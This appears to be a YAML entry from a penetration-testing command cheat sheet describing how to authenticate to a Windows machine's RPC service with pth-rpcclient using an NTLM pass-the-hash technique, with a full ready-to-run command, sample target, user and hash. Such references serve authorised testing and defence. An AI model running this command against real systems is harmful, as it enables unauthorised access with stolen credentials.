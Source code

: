 ```yaml
---
description: Interact with RPC services on a remote Windows machine using rpcclient with NTLM Pass-the-Hash.

Command Reference:
    Target IP: 10.10.10.1
    Domain: test.local
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  pth-rpcclient -U test.local/john%00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396 //10.10.10.1

items:
  - Hash

services:
  - RPC
  - NTLM

OS:
  - Windows

attack_types:
  - Enumeration

references:
  - https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html
  - https://github.com/byt3bl33d3r/pth-toolkit
  - https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page
---
```

